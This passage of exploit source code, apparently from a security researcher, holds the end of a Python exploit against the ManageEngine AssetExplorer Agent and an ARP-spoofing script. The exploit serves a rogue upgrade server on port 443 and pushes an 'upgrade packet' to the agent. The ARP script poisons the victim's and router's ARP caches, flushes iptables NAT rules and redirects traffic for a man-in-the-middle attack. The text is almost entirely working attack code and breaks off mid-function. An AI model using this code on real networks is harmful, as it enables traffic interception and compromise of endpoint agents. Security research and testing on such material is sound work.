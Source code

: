 ```python
def main():
    """ ManageEngineAssetExplorerAgent Exploit in default configurations"""
    agent_ip = sys.argv[1]
    local_server_port = 443

    if len(sys.argv) > 2:
        if sys.argv[2] == '--ssl':
            server.socket = ssl.wrap_socket(server.socket, certfile="./server.pem", server_side=True)
            print("HTTPS Server listening at %d" % local_server_port)
    else:
        print("HTTP Server listening at %d" % local_server_port)
    server_thread = threading.Thread(target=server.serve_forever)
    server_thread.start()
    client_thread = threading.Thread(target=send_upgrade_packet,args=(agent_ip,))
    client_thread.start()

if __name__=="__main__":
  main()
```



>arp_spoof.py

```python
#!/usr/bin/env python
# Author: Sahil Dhar (@0x401)
# usage: python3 arp_spoof.py <target> <upgrade_server> <target_port> start


from scapy.all import *
import logging
import time
import signal
import os

logging.getLogger("scapy.runtime").setLevel(logging.ERROR)

def get_mac(ip):
    res, unres = arping(ip)
    for s, r in res:
        return r[Ether].src

def arp_restore(victim_ip, router_ip, victim_mac, router_mac):
    send(ARP(op=2, psrc=victim_ip, pdst=router_ip, hwdst="ff:ff:ff:ff:ff:ff", hwsrc=victim_mac), 3)
    send(ARP(op=2, psrc=router_ip, pdst=victim_ip, hwdst="ff:ff:ff:ff:ff:ff", hwsrc=router_mac), 3)

def arp_poison(victim_ip, router_ip, victim_mac, router_mac):
    """As we are not defining hwsrc, the hwsrc will be taken as our
    hardware mac address and thus putting us between victim and router"""

    send(ARP(op=2, psrc=router_ip, pdst=victim_ip, hwdst=victim_mac))
    send(ARP(op=2, psrc=victim_ip, pdst=router_ip, hwdst=router_mac))

def create_env(port=8080):
    cmds = set()
    os.system("iptables -t nat -F")
    print("Iptables NAT cleared")
    print("Ip foward rule inserted");
    cmds.add('echo "1" > /proc/sys/net/ipv4/ip_forward')
    cmds.add("iptables -t nat -A PREROUTING -p tcp --destination-port %s -j REDIRECT --to-port %s" % (port, port))
    for cmd in cmds:
        time.sleep(1)
```